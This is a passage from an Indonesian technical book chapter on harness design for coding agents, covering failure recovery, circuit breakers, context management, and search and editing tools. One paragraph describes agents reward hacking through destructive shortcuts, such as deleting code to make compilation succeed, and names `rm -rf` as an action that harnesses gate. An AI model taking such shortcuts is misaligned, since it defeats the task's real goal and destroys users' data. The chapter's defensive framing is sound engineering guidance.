- **Anthropic**: Membagi tugas panjang menjadi dua peran—inisialisasi Agent yang bertanggung jawab untuk merinci tugas besar menjadi daftar tugas, dan eksekusi Agent yang bertanggung jawab untuk maju selangkah demi selangkah, meninggalkan hasil sementara (seperti file kode yang telah selesai dan daftar tugas yang diperbarui) untuk dilanjutkan pada putaran berikutnya. Pembagian kerja ini memecahkan masalah Agents yang berjalan lama karena "mencoba melakukan terlalu banyak hal sekaligus" atau "mengklaim penyelesaian sebelum waktunya."

**Dari Coding Agent ke Prinsip Desain Harness Umum.**

Praktik Harness dari Coding Agents memberikan prinsip desain yang dapat ditransfer untuk semua sistem Agent:

1. **Batasan (Constraints) lebih diutamakan daripada panduan (guidance)**: Aturan yang dapat ditegakkan dengan kode harus dikodekan di sana, bukan hanya disarankan dalam dokumentasi. Nilai dari aturan *linter*, batasan tipe (*type constraints*), dan pemeriksaan CI jauh melebihi panduan "tolong ikuti..." dalam System Prompts—yang pertama berarti "tidak bisa dilakukan", yang terakhir hanyalah "disarankan untuk tidak dilakukan".
2. **Otomatisasi verifikasi**: Tinjauan manual adalah *bottleneck* yang tidak dapat diskalakan. Investasi pada *test suites*, pemeriksaan kualitas kode, dan pemantauan perilaku memberikan keuntungan yang jauh lebih tinggi daripada menambahkan lebih banyak upaya manusia.
3. **Umpan balik (Feedback) harus secepat dan seterstruktur mungkin**: Semakin rinci pesan kesalahan dan semakin dekat dengan momen terjadinya kesalahan, semakin efisien Agent dapat memperbaiki dirinya sendiri. Teknik bilah status Agent (*Agent status bar*) dari Bab 2 (pesan kesalahan yang terperinci, penghitung panggilan alat) mewujudkan prinsip ini.
4. **Rollback harus dapat diandalkan**: Agents hanya dapat bereksperimen dengan berani saat beroperasi di dalam jaring pengaman (*safety net*). Cabang Git (*Git branches*), lingkungan *sandbox*, dan mekanisme *snapshot* memastikan setiap kesalahan dapat dibatalkan.

**Tujuan batasan yang lebih dalam: mencegah kesalahan proses.** Baseline penerimaan mengatur apakah hasilnya benar; batasan eksekusi mengatur **prosesnya**—bahkan hasil yang benar tidak membenarkan metode yang salah. Menghapus dan membangun ulang *database* untuk "memperbaiki" gangguan *database* memang memperbaikinya, tetapi datanya hilang; menghapus semua kode untuk memperbaiki kesalahan kompilasi memang membuat kompilasi berhasil, tetapi implementasinya hilang. Jalan pintas destruktif semacam itu selalu ada: bahkan ketika pembatasan ditulis ke dalam metrik evaluasi akhir, Agents sering kali menemukan cara untuk menghindarinya—ini adalah bentuk sehari-hari dari *reward hacking* (Bab 8) dalam tugas-tugas Agent. Oleh karena itu, Harness produksi menempatkan pemeriksaan dan persetujuan khusus pada tindakan berbahaya seperti `rm -rf`, menghapus data produksi, atau menimpa file yang belum dibaca (penguraian semantik atau *semantic parsing* di bagian keamanan bab ini, tinjauan *Sidecar* di Bab 4), yang membatasi **tindakan**, bukan sekadar hasil. RLVP di Bab 8 (Reinforcement Learning with Verified Penalty—"hargai hasilnya, hukum jalurnya") menjawab pertanyaan yang sama dari sisi pelatihan: melampaui hadiah (reward) hasil akhir, metode ini menghukum pelanggaran yang dapat diverifikasi di sepanjang jalur eksekusi, menginternalisasi prinsip "tidak ada cara yang destruktif" sebagai akal sehat rekayasa bagi model. Untuk model yang ada, pagar pembatas (guardrails) Harness adalah batasan eksternal; untuk model yang dapat dilatih, hukuman proses menginternalisasi batasan yang sama. Tujuannya tetap sama.

**Orkestrasi Tool: Kontrol Batas Kesalahan (Fault Boundary Control)**. Coding Agents yang matang mendukung pemanggilan *tool* secara paralel. Masalah unik dari perspektif Harness adalah **bagaimana kesalahan (faults) merambat**: ketika satu *tool* gagal, panggilan mana yang harus dibatalkan dan mana yang harus dilanjutkan? Prinsipnya adalah kesalahan hanya merambat dalam *batch* panggilan paralel yang sama, tidak sampai ke operasi induk. Saat membaca tiga file secara paralel, misalnya, sebuah file yang hilang seharusnya hanya menyebabkan panggilan tersebut gagal; itu tidak boleh membatalkan dua panggilan lainnya atau menggagalkan seluruh tugas. Kontrol batas kesalahan yang terperinci ini menghindari pola rapuh "satu kegagalan perintah membatalkan seluruh tugas." Mekanisme spesifik untuk panggilan paralel, *streaming parsing*, dan *cascading aborts* dirinci di bagian "Tips Implementasi" pada bab ini.

### Pemulihan Kegagalan dan Kesalahan (Failure and Error Recovery)

Bagian sebelumnya menyajikan prinsip dan komponen rekayasa Harness; bagian ini mendalami bagian yang paling membedakan kematangan rekayasa—**pemulihan kegagalan dan kesalahan**. Eksperimen ablasi di Bab 1 menunjukkan betapa parahnya masalah ini: hilangnya satu bagian umpan balik dari hasil *tool* sudah cukup untuk menjebak Agent ke dalam putaran tak terbatas (*infinite loop*)—dan lingkungan produksi yang nyata melihat kegagalan yang jauh lebih beragam daripada eksperimen mana pun. Bagian ini secara sistematis menjawab tiga pertanyaan: Kegagalan apa yang dihadapi oleh Harness produksi? Bagaimana kegagalan tersebut dideteksi dan dipulihkan? Dan kapan sistem harus dihentikan?[^ch5-3]

[^ch5-3]: Taksonomi kegagalan dan analisis mekanisme pada bagian ini didasarkan pada penelitian terhadap *source code* dari implementasi Agent kelas produksi seperti Claude Code. Implementasi spesifik berkembang pesat di seluruh versi; bagian ini hanya menyaring prinsip-prinsip rekayasa yang stabil.

**Taksonomi kegagalan: empat lapisan.** Langkah pertama menuju respons sistematis adalah klasifikasi. Kegagalan terbagi dalam empat lapisan berdasarkan tempat terjadinya:

- **Lapisan API (API layer)**: pembatasan laju (*rate limiting* HTTP 429), kelebihan beban layanan (*service overload*), *request timeouts*, koneksi terputus, dan *output* yang terpotong pada batas token. Kegagalan ini tidak terkait dengan tugas itu sendiri—mereka adalah gangguan infrastruktur.
- **Lapisan Tool (Tool layer)**: panggilan terhalusinasi (*hallucinated calls*, yaitu memanggil *tool* yang tidak ada), argumen yang cacat (*malformed arguments*, melanggar kontrak input *tool*), pengecualian eksekusi (*execution exceptions*), dan jenis yang paling berbahaya—sebuah *tool* berulang kali mengembalikan kesalahan yang sama sementara model mencobanya kembali tanpa perubahan.
- **Lapisan Konteks (Context layer)**: jendela konteks yang penuh (*context window overflow*), kegagalan kompresi (*compaction failure*), dan struktur lintasan yang rusak (seperti panggilan *tool* yang kehilangan pesan hasil pasangannya).
- **Lapisan Aliran Kontrol (Control-flow layer)**: putaran tak terbatas (*infinite loops*, mengulangi operasi yang sama tanpa kemajuan) dan spiral kematian (*death spirals*, logika pemulihan yang dipicu oleh suatu kesalahan memanggil LLM itu sendiri, gagal lagi, dan terus berjenjang).

**Deteksi: klasifikasikan dulu, baru hitung.** Ketika kegagalan terjadi, pertanyaan pertama bukanlah "Haruskah kita mencoba lagi?" tetapi "Apakah mencoba lagi akan membantu?" Kesalahan yang dapat dicoba lagi (*retryable errors* seperti pembatasan laju, *overload*, *network jitter*) layak untuk dicoba lagi (*retry*); kesalahan yang tidak dapat dicoba lagi (*non-retryable errors* seperti argumen tidak valid, izin tidak memadai, *tool* tidak ada) akan menghasilkan hasil yang sama tidak peduli berapa kali pun dicoba lagi seperti semula—input atau strateginya harus berubah. Harness produksi memelihara pemetaan dari jenis kesalahan ke strategi pemulihan, bukan sekadar menerapkan selimut "coba lagi jika terjadi kesalahan".

Di luar kesalahan individu, deteksi **pola**. Pertama, sidik jari dari panggilan berulang (*repeated-call fingerprints*): *hash* dari pasangan "nama tool + argumen"; sidik jari yang sama yang berulang kali muncul adalah sinyal jelas dari putaran tanpa kemajuan—Agent dalam eksperimen ablasi Bab 1 yang memanggil *tool* yang sama berulang kali persis mewakili pola ini. Kedua, penghitung kegagalan beruntun (*consecutive-failure counters*): setiap jalur pemulihan menyimpan penghitungnya sendiri, menyediakan dasar untuk pemutus sirkuit (*circuit breakers*) yang akan dibahas nanti.

Kelas kegagalan ketiga tidak bermanifestasi sebagai kesalahan sama sekali dan memerlukan **pemantauan keaktifan dan integritas (liveness and integrity monitoring)** secara khusus. Mode kegagalan paling berbahaya dari koneksi *streaming* bukanlah pemutusan (yang segera menghasilkan kesalahan) tetapi *stall* yang diam—koneksi tetap terjalin, tetapi aliran data berhenti, seperti pipa tersambung yang tidak menghasilkan air. Waktu tunggu (*timeouts*) SDK sering kali hanya mencakup koneksi awal, bukan proses transfer, sehingga Agent produksi memerlukan *idle watchdog* independen (*watchdog timer*—jika tidak ada *output* baru yang tiba dalam interval yang ditetapkan, koneksi dinilai macet) yang akan mematikan *stream* yang *hung* dan memicu upaya ulang (*retry*) saat terjadi *timeout*. Ini digeneralisasikan menjadi sebuah prinsip: **setiap koneksi berumur panjang memerlukan sinyal liveness, bukan hanya batas waktu koneksi**. Pemantauan integritas menargetkan struktur lintasan: ketika panggilan *tool* ditemukan tidak memiliki pesan hasil pasangannya, sistem memperbaiki pemasangannya sebelum menyuntikkan konteks, daripada melemparkan anomali struktural tersebut ke model atau pengguna. Salah satu detail rekayasa yang penting: beberapa Agent produksi menjalankan mode produksi sekaligus mode pengumpulan data pelatihan—mode produksi mungkin menambal pesan yang hilang dengan *placeholders*, sementara mode pelatihan menolak untuk memperbaiki, karena *placeholders* sintetis akan mencemari data pelatihan. Standar ganda "longgar dalam produksi, ketat dalam pelatihan" ini mencerminkan penggabungan mendalam antara Harness dan pelatihan model.

**Pemulihan: eskalasi melalui tahap-tahap yang semakin terlihat.** Tindakan pemulihan dinilai berdasarkan seberapa terlihatnya bagi pengguna; jika tingkat yang lebih rendah dapat menyelesaikan masalah, jangan diekskalasi:

1. **Coba lagi secara diam-diam (Silent retry)**. Tindakan default untuk kesalahan yang dapat dicoba lagi (*retryable errors*). Dua detail menentukan apakah upaya ulang berhasil: pertama, gunakan *exponential backoff* dengan *random jitter* untuk mencegah banyak *client* melakukan upaya ulang pada saat yang sama yang menyebabkan kemacetan sekunder, sambil menghormati durasi tunggu yang disarankan server; kedua, bedakan antara panggilan *foreground* dan *background*—permintaan *main-loop* yang gagal akan dicoba lagi, tetapi panggilan *background* tambahan (pembuatan judul, saran input) akan dibatalkan (*dropped*) jika gagal, jangan sampai upaya ulang *background* menghabiskan kuota *main-loop* dan menciptakan "amplifikasi *retry*".
2. **Turunkan dan lanjutkan (Degrade and continue)**. Saat upaya ulang gagal, ubah permintaan itu sendiri dan coba lagi. Ambil contoh pemotongan *output* (generasi terpotong oleh batas panjang): pertama, kirim ulang secara diam-diam dengan batas *output* yang dinaikkan; jika itu masih belum cukup, tambahkan meta-instruksi di akhir pesan sehingga model melanjutkan generasi dari titik henti tersebut. Saat model utama kelebihan beban secara terus-menerus, lakukan *fall back* ke model lain, pertama-tama dengan menghapus blok format *proprietary* dari riwayat model sebelumnya sehingga model baru dapat menguraikannya; ketika mode biaya tinggi terkena *rate limit*, lakukan *fall back* sementara ke mode standar.
3. **Tampilkan ke pengguna (Surface to the user)**. Hanya setelah semua sarana otomatis habis barulah kesalahan tersebut disajikan—bersama dengan tindakan pemulihan yang telah dicoba.

Kesalahan *tool-layer* mengambil jalur yang berbeda: **jangan hentikan sesi; ubah kesalahan menjadi input model**. Panggilan yang terhalusinasi akan menerima pesan kesalahan terstruktur "tool tidak ada"; kegagalan validasi akan menerima kesalahan yang dianotasi dengan petunjuk tentang kontrak input; argumen yang cacat (sebuah *string* dikeluarkan saat *object* yang diharapkan) diperbaiki secara terprogram sebelum eksekusi. Kesalahan-kesalahan ini masuk ke dalam konteks sebagai hasil *tool* biasa, dan model akan mengoreksi dirinya sendiri pada putaran berikutnya—sebuah penerapan dari prinsip sebelumnya bahwa "semakin terstruktur umpan baliknya, semakin baik": semakin spesifik kesalahan yang diumpan balik, semakin tinggi tingkat koreksi diri (self-correction) dari model.

Prinsip inti dari bagian ini adalah: **unit penanganan kesalahan bukanlah permintaan tunggal, melainkan seluruh putaran pemulihan (recovery loop)**. Sebelum pemulihan dipastikan mustahil, kesalahan sementara tidak boleh diekspos kepada konsumen—baik itu pengguna atau sistem *downstream* yang berlangganan acara (events): tahan pesan kesalahan selama proses pemulihan; jika pemulihan berhasil, konsumen tidak akan pernah menyadarinya; hanya ketika semuanya gagal, kesalahan yang ditahan akan dilepaskan. Ini adalah perwujudan rekayasa dari prinsip koreksi Bab 1—"jangan ekspos keadaan sementara sampai pemulihan dipastikan tidak mungkin".

**Penghentian (Termination): setiap jalur pemulihan membutuhkan batas atas.** Mekanisme pemulihan itu sendiri bisa gagal, jadi setiap jalur pemulihan harus memiliki batas atas (retry ceiling) yang eksplisit: kompresi konteks menyerah setelah beberapa kegagalan berturut-turut; pengklasifikasi izin akan *fall back* dengan bertanya kepada manusia setelah kegagalan berulang; kelanjutan *output* dicoba paling banyak sejumlah waktu tertentu. Dari mana ambang batas ini berasal? Data produksi, bukan tebakan. Ambil contoh *circuit breaker* kompresi Claude Code: ambang batas "3 kegagalan berturut-turut" berasal dari statistik sesi nyata—sebuah sesi pernah gagal lebih dari tiga ribu kali berturut-turut pada jalur pemulihan ini, dan upaya ulang yang sia-sia semacam itu saja menghabiskan sekitar 250.000 panggilan API per hari di seluruh dunia; lebih dari seribu sesi mengalami rentetan 50+ kegagalan beruntun. Tiga adalah titik belok (inflection point) empiris antara "sebagian besar kegagalan pulih sebelum ini" dan "upaya ulang lebih lanjut pada dasarnya tidak ada harapan."

Lebih berbahaya daripada *breaker* titik tunggal adalah **spiral kematian (death spiral)**: logika yang dipicu pada jalur kesalahan itu sendiri memanggil LLM, gagal lagi, dan terus berjenjang. Satu kaskade (*cascade*) nyata: Agent berhenti karena kesalahan *context-overflow*, yang memicu *stop hook* (logika pembersihan yang berjalan otomatis saat Agent berakhir) yang melakukan "commit code on exit", *hook* tersebut memanggil LLM untuk menulis pesan *commit*, konteks *overflow* lagi, dan *hook* menyala sekali lagi. Pertahanan datang dalam dua bagian: nonaktifkan semua efek samping pemanggilan model (model-invoking side effects) pada jalur kesalahan (lebih baik kehilangan fitur tambahan sekali saja, seperti ekstraksi *memory* otomatis), dan gunakan penghitung kedalaman rekursi (*recursion-depth counter*) untuk mendeteksi dan mematahkan kaskade sisa. Akhirnya, di atas semua mekanisme otomatis terdapat kondisi penghentian dan eskalasi global: jumlah putaran maksimum, batas anggaran sesi, dan eskalasi ke intervensi manusia ketika kegagalan berturut-turut melampaui ambang batas mereka.

### Kiat Implementasi untuk Coding Agent

Alur kerja yang dijelaskan di atas adalah idealnya. Untuk membuatnya berjalan dalam praktiknya memerlukan beberapa teknik implementasi yang konkret—cara untuk meningkatkan kecepatan respons dan memangkas konsumsi konteks tanpa menurunkan kualitas pemikiran (*quality of thought*). Ini adalah teknik-teknik Agent secara umum dari Bab 2 dan 4, yang diterapkan pada domain pemrograman.

**Panggilan Tool Paralel, Eksekusi Streaming, dan Cascading Abort.**

Implementasi Agent tradisional sering kali bekerja secara serial: hasilkan panggilan *tool*, jalankan, dapatkan hasilnya, lalu putuskan langkah selanjutnya. Antrean ketat ini membuang banyak waktu.

Coding Agents modern harus sepenuhnya memanfaatkan respons *streaming*: Bab 2 memperkenalkan mekanisme ini saat membahas urutan *output* model—setelah parameter panggilan *tool* pertama sepenuhnya dihasilkan dan melewati validasi, eksekusi dapat segera dimulai, tanpa menunggu model untuk menghasilkan panggilan *tool* berikutnya. Misalnya, jika model perlu menghasilkan tiga panggilan *tool* dalam satu inferensi—mencari kode, memeriksa file konfigurasi, dan membaca *log*—panggilan pertama dapat mulai dieksekusi segera setelah parameternya lengkap dan divalidasi, tumpang tindih (*overlapping*) dengan generasi dua *tool* lainnya. Panggilan independen juga dapat dieksekusi secara paralel daripada diantrekan. Eksekusi yang tumpang tindih ini secara signifikan mengurangi latensi *end-to-end*, membuat respons Agent lebih lincah.

Sisi lain dari eksekusi paralel adalah penanganan kesalahan. Setiap definisi *tool* harus menyatakan apakah ia mendukung eksekusi konkuren (*default* adalah tidak, *fail-safe*). Ketika sebuah panggilan gagal, mekanisme *cascading abort* mengakhiri panggilan lain yang dimulai di *batch* yang sama yang bergantung pada hasilnya, tetapi tidak memengaruhi panggilan independen atau operasi induknya—ini adalah implementasi konkret dari prinsip "kontrol batas kesalahan" dari bagian rekayasa Harness.

**Manajemen Konteks Secara Terperinci (Fine-Grained).**

Tantangan mendasar untuk Coding Agents adalah basis kode (*codebase*) biasanya besar, tetapi jendela konteks model terbatas. Bahkan jika model canggih mengklaim mendukung jutaan token, memasukkan seluruh *codebase* ke dalam konteks tidaklah ekonomis ataupun perlu. Manajemen konteks yang cerdas perlu beroperasi di berbagai tingkatan.

Pada tingkat pembacaan file, Agent sebaiknya tidak selalu membaca seluruh file. Untuk file besar, *tool* harus mendukung membaca rentang baris tertentu—misalnya, hanya membaca baris 100 hingga 150, daripada memuat file yang memiliki ribuan baris. Lebih penting lagi, ketika mengembalikan konten, nomor baris harus dilampirkan—setiap baris kode diawali dengan nomor baris yang sebenarnya. Desain yang tampaknya sederhana ini membawa nilai besar: model dapat dengan tepat merujuk ke "baris 42 dari `src/main.py`," mengurangi ambiguitas dan membuat operasi pengeditan selanjutnya lebih dapat diandalkan.

Pada tingkat eksekusi perintah, menangani *output* terminal juga memerlukan kehati-hatian. Kompilasi atau pengujian dapat menghasilkan ribuan baris *output*. Jika semuanya disuntikkan ke dalam konteks, anggaran akan cepat habis. Pemotongan *output* yang panjang dan mekanisme persistensi yang diperkenalkan di Bab 4 secara luas diterapkan di sini: pertahankan beberapa baris awal *output* (biasanya berisi konteks kesalahan) dan beberapa baris terakhir (biasanya berisi ringkasan kesalahan), ganti bagian tengah dengan *placeholder* satu baris, dan catat bahwa *output* lengkap telah disimpan ke file sementara untuk dilihat kembali *on-demand*.

**Injeksi Dinamis dari Informasi Lingkungan.**

Ini adalah manifestasi terkonsentrasi dari teknik bilah status Agent (*Agent status bar*) dari Bab 2 pada Coding Agents. Berbeda dengan Agent umum, Coding Agents sangat bergantung pada status lingkungan eksekusi. Sebelum setiap inferensi, informasi lingkungan utama berikut harus disuntikkan di akhir konteks dalam bentuk *Agent status bar*:

- **Direktori kerja saat ini (Current working directory)**: memastikan referensi *path* (jalur) sudah benar
- **Cabang Git (Git branch)**: mengetahui apakah sedang bekerja pada cabang utama (main branch) atau cabang fitur (feature branch)
- **Riwayat commit terbaru (Recent commit history)**: memahami evolusi proyek
- **Gambaran umum dari unstaged and staged changes**: mengetahui modifikasi apa yang telah dilakukan

Informasi ini tidak boleh di-*hardcode* ke dalam System Prompts statis—itu akan menghancurkan efisiensi KV Cache—melainkan harus dihasilkan secara dinamis dan disuntikkan sebagai *Agent status bar* yang ditambahkan. Dengan cara ini, Agent mendapatkan "kesadaran lingkungan" (*environmental awareness*), dengan setiap keputusan didasarkan pada pemahaman yang akurat tentang keadaan saat ini, bukan asumsi yang sudah ketinggalan zaman.

**Persistensi Keadaan (State Persistence) di Lingkungan Eksekusi Perintah.**

Saat berinteraksi dengan kode, banyak operasi bergantung pada status lingkungan: mengubah direktori, mengaktifkan lingkungan virtual (*virtual environments*), menetapkan variabel lingkungan (*environment variables*), memulai layanan latar belakang (*background services*). Jika setiap perintah dieksekusi di *shell* yang baru, semua status ini akan hilang—Agent baru saja menggunakan `cd` untuk menavigasi ke direktori proyek, tetapi perintah berikutnya dimulai lagi dari direktori *default* dari *shell*, memaksanya untuk mengulangi pengaturan yang sama. Lebih buruk lagi, efek dari beberapa operasi (seperti mengaktifkan lingkungan virtual Python) hanya berlaku dalam sesi *shell* saat ini dan tidak dapat diteruskan ke sesi yang berbeda.

Oleh karena itu, sesi terminal yang persisten (persistent) harus dipertahankan, dibuat saat Agent mulai dan tetap aktif di seluruh interaksi. Setiap perintah dieksekusi di terminal bersama ini, melestarikan direktori kerja, variabel lingkungan, dan status sesi. Desain ini lebih selaras dengan kebiasaan kerja pengembang manusia—kita biasanya bekerja di jendela terminal yang berjalan lama. Tentu saja, Agent juga harus mempertahankan kemampuan untuk memulai terminal terisolasi guna mendukung tugas paralel, tetapi sesi yang persisten harus menjadi mode *default*.

**Mekanisme Umpan Balik Sintaksis Instan.**

Ini sekali lagi menunjukkan nilai dari teknik bilah status Agent. Setelah Agent memodifikasi kode, ia tidak boleh menunggu pengguna meminta pengujian secara eksplisit sebelum memeriksa sintaksis. Pendekatan yang lebih efisien adalah agar tool layer menjalankan linter atau pemeriksa sintaksis yang sesuai secara otomatis segera setelah operasi penulisan file selesai dan menyajikan hasilnya sebagai bagian dari nilai kembalian alat (tool's return value) ke Agent. Jika kesalahan sintaksis terdeteksi, Agent segera melihat informasi kesalahan terperinci di ronde inferensi berikutnya—mirip seperti sebuah IDE yang langsung menandai tanda kurung yang tidak berpasangan. Mekanisme umpan balik instan ini secara signifikan mengurangi biaya perbaikan kesalahan, karena Agent dapat mengoreksi kesalahan pada saat diperkenalkan, tanpa menunggu sampai menjalankan pengujian untuk menemukan masalah tersebut.

Kelima teknik implementasi ini—paralelisme dan streaming, manajemen konteks, kesadaran lingkungan, persistensi status, dan umpan balik instan—bersama-sama membentuk fondasi teknis dari Coding Agent yang efisien. Mereka bukanlah titik optimasi yang terisolasi, melainkan keputusan desain yang saling menguatkan, semuanya mengarah pada satu tujuan tunggal: memungkinkan Agent bekerja semulus pengembang berpengalaman.

### Alat Pencarian pada Coding Agent

Menemukan lokasi kode yang relevan di basis kode (codebase) yang besar adalah titik awal pekerjaan Coding Agent. Gambar 5-3 membandingkan beberapa alat pencarian yang saling melengkapi, mengilustrasikan bagaimana Coding Agent yang matang seharusnya memilih metode pengambilan (retrieval) berdasarkan sifat tugasnya.


**Pencocokan Konten Regex** (grep/ripgrep): Metode pencarian yang paling tradisional, memindai konten file baris demi baris untuk pencocokan pola. Ketika Agent mengetahui teks yang tepat untuk dicari (nama fungsi, nama variabel, pesan kesalahan), ia dapat menemukan setiap kemunculan dengan cepat dan akurat. Kekuatan ekspresif dari ekspresi reguler (sebuah sintaksis untuk mendeskripsikan pola teks dengan simbol khusus, misalnya, `def handle.*` mencocokkan semua definisi fungsi yang diawali dengan `handle`) menangkap pola kompleks—bukan sekadar teks literal, tetapi kode yang sesuai dengan struktur tertentu. Pada praktiknya, pemfilteran jenis file (cari hanya file Python) dan pemfilteran pola jalur (kecualikan direktori pengujian) juga harus didukung untuk mengurangi kebisingan (noise). Batasan mendasarnya: ia hanya menemukan kecocokan tekstual dan tidak memahami semantik—pencarian untuk "user authentication" tidak akan pernah memunculkan fungsi yang menangani logika login tetapi kebetulan tidak mengandung kata "authentication."

**Pencocokan Pola Nama File** (glob): Mengabaikan konten file, hanya mencari struktur jalur sistem file untuk file yang cocok dengan sebuah pola. Misalnya, `**/*.test.ts` menemukan semua file pengujian TypeScript secara rekursif, `src/components/**/Button.tsx` mencari Button.tsx pada kedalaman berapa pun di bawah components. Ini jauh lebih cepat daripada pencarian konten (tidak perlu membuka dan membaca file) dan merupakan langkah pertama Agent dalam mengeksplorasi struktur proyek—dengan cepat membangun kerangka kerja organisasi proyek dengan memindai seluruh sistem file.

**Pencarian Kode Semantik** (Semantic Code Search): Berbeda dengan dua metode pencocokan pasti (exact matching) pertama, metode ini mencoba memahami "makna" dari kueri dan kode. Ia perlu menyelesaikan dua masalah utama:

- **Chunking Sadar-Struktur** (Structure-Aware Chunking): Kode memiliki struktur sintaksis yang ketat dan harus dipisahkan berdasarkan unit semantik yang lengkap seperti fungsi, kelas, dan metode, daripada memotongnya secara buta berdasarkan jumlah karakter yang tetap.
- **Pengambilan Hibrida** (Hybrid Retrieval - Bab 3 merinci tumpukan teknologi ini): Vector embeddings (dense embeddings) sangat unggul dalam menemukan kode yang serupa secara semantik dengan kata-kata yang berbeda (misalnya, mencari "verify user identity" dapat menemukan fungsi bernama `check_credentials`), sementara pencocokan kata kunci sangat unggul dalam mencocokkan nama fungsi dan variabel secara tepat. Keduanya berjalan secara paralel, dan hasilnya digabungkan dan diurutkan oleh reranker (sebuah cross-encoder yang melakukan pemeringkatan relevansi butir-halus pada hasil kandidat), yang memberikan cakupan komplementer.

Pencarian semantik sangat cocok untuk tugas-tugas eksploratif, seperti menemukan kode yang terkait dengan "berinteraksi dengan database" atau "menangani validasi input pengguna" dalam basis kode yang tidak dikenal.

Namun, ada perdebatan yang jelas di industri mengenai apakah layak membangun indeks embedding untuk pencarian semantik. Agent berbasis terminal seperti Claude Code sengaja **tidak membangun indeks embedding**, hanya mengandalkan kombinasi agentic grep + glob untuk pengambilan secara langsung (on-the-fly)—ini menghindari keharusan memelihara indeks yang menjadi usang saat kode berkembang, mengeliminasi seluruh infrastruktur pengindeksan. Alat berbasis IDE seperti Cursor pada awalnya mengambil pendekatan yang berlawanan: mereka bersedia membayar biaya pembuatan indeks untuk **perolehan semantik lintas-file** (cross-file semantic recall), menggunakan indeks embedding untuk dengan cepat menemukan cuplikan (snippets) yang terkait secara semantik tetapi memiliki kata-kata yang berbeda dalam basis kode yang besar. Saat ini, IDE seperti Cursor pun telah beralih ke pengambilan langsung dengan grep + glob.

**Definisi Tingkat-Simbol dan Pencarian Referensi**: Metode ini menggunakan kapabilitas mirip IDE "go to definition" dan "find all references" untuk membedakan definisi simbol dari referensinya—misalnya, metode ini mengidentifikasi `authenticate` pada baris 42 sebagai definisi fungsi dan kemunculannya pada baris 189 sebagai panggilan, sedangkan pencarian teks hanya bisa menemukan semua baris yang mengandung string tersebut. Coding agent arus utama saat ini belum menggunakan metode ini.

Keempat metode pencarian ini membentuk kotak alat yang saling melengkapi, yang dalam praktiknya sering digunakan secara kombinasi: pertama-tama gunakan pencarian semantik untuk menemukan modul yang relevan, lalu gunakan pencocokan regex untuk secara tepat menemukan lokasi baris kode tertentu, dan terakhir gunakan pencarian simbol untuk melacak rantai panggilan—sebuah strategi progresif "dari kasar ke halus, dari semantik ke sintaksis."

### Alat Pengeditan File pada Coding Agent

Kesulitan pengeditan file tidak terletak pada operasi itu sendiri, tetapi pada bagaimana secara efisien dan andal memberi tahu sistem "apa yang harus diubah dan bagaimana mengubahnya" menggunakan sebuah LLM. Gambar 5-4 membandingkan lima skema pengeditan file, mengilustrasikan ketegangan mendasar antara ekspresi bahasa manusia dan eksekusi presisi-mesin.



**Diff Description + Apply Model**: Model ini tidak secara langsung menentukan bagaimana mengedit file; sebaliknya, ia menghasilkan deskripsi perubahan—yang dapat berupa teks diff mirip dengan git diff (format yang dikeluarkan oleh perintah `git diff`, yang menunjukkan "baris mana yang dihapus dan mana yang ditambahkan"), atau kerangka kode dengan penanda penghilangan (menggunakan komentar seperti "tetap tidak diubah di sini" untuk melewatkan bagian yang tidak dimodifikasi). Deskripsi ini kemudian diserahkan kepada "Apply Model" khusus—biasanya merupakan LLM lain yang lebih kecil dan lebih cepat—yang bertanggung jawab untuk menggabungkannya dengan file asli untuk menghasilkan file baru yang utuh. Pemisahan perhatian ini memungkinkan model utama untuk fokus pada logika kode tingkat tinggi dan Apply Model untuk fokus pada operasi teks tingkat rendah. Kerapuhan implementasi yang naif terletak pada langkah penggabungan: ketika terdapat perbedaan kecil antara deskripsi perubahan dan kode file yang sebenarnya, ia perlu menentukan apakah mereka merujuk ke lokasi yang sama; ketika ada beberapa cuplikan kode yang serupa, ia mungkin bergabung ke tempat yang salah. Cursor adalah representasi dari evolusi berkelanjutan pendekatan ini: model utama menghasilkan kerangka kode dengan penanda penghilangan, sebuah model kecil fast-apply khusus yang dilatih menulis ulang file yang utuh, dan speculative decoding (menggunakan konten file asli sebagai draf untuk verifikasi paralel) mendorong kecepatan penggabungan menjadi ribuan token per detik—investasi rekayasa telah membeli keandalan dan kecepatan untuk pendekatan ini.

**String Lama → String Baru**: Pendekatan yang diadopsi oleh Claude Code. Model menyediakan string lama (teks asli yang akan diganti) dan string baru (teks pengganti), dan framework melakukan operasi temukan-dan-ganti string yang sederhana. Keuntungannya adalah prediktabilitas dan transparansi—jika string lama ada dan unik dalam file, maka ia berhasil; jika tidak, maka ia gagal. Tidak ada ambiguitas. Biayanya adalah bahwa menghapus blok kode besar memerlukan pengeluaran semua konten asli secara penuh; penyimpangan satu karakter saja menyebabkan pencocokan gagal. Ketika kode yang sama muncul beberapa kali, konteks yang lebih panjang harus disediakan untuk menghilangkan ambiguitas.

**Penargetan Nomor Baris** (Nomor Baris Lama → String Baru): Model menentukan "hapus baris X hingga Y, sisipkan konten baru." Nomor baris itu presisi dan tidak ambigu, dan menghapus blok besar hanya membutuhkan dua angka. Namun, model ini rentan terhadap kesalahan saat "menghitung" nomor baris, terutama untuk file yang sangat panjang. Dalam praktiknya, hal ini dimitigasi dengan menambahkan anotasi nomor baris ke setiap baris saat membaca file, namun nomor-nomor baris selanjutnya akan berubah setelah setiap pengeditan, yang membatasi paralelisme pada pengeditan ganda.

**Perintah Edit Mirip Vim**: Meminjam dari sistem perintah editor Vim, mendukung operasi kaya seperti salin, potong, dan tempel. Sangat efisien untuk merestrukturisasi kode (memindahkan fungsi dari satu tempat ke tempat lain). Tetapi sintaks perintah ini membawa beban pembelajaran yang nyata: model-model terkuat menanganinya dengan baik; model-model yang lebih kecil terlihat lebih banyak membuat kesalahan.

**Pencocokan Awal + Akhir String** (Awal + Akhir String Lama → String Baru): Ini bisa dilihat sebagai peningkatan dari skema penggantian string lama. Model tidak perlu mengeluarkan string lama secara lengkap; ia hanya perlu memberikan beberapa baris pertama dan beberapa baris terakhir dari konten yang akan dihapus, menghilangkan bagian tengahnya. Framework menemukan lokasi area penggantian dari pasangan awal-dan-akhir ini, asalkan kombinasinya unik di dalam file. Skema ini menggabungkan keandalan penggantian teks dengan efisiensi pendekatan nomor baris—saat menghapus blok kode besar, tidak perlu mengeluarkan ratusan baris kode asli, hanya batasnya yang perlu ditunjukkan. Pada saat yang sama, karena ini masih berdasarkan pencocokan konten dan bukan pada nomor baris abstrak, risiko model membuat kesalahan relatif rendah.

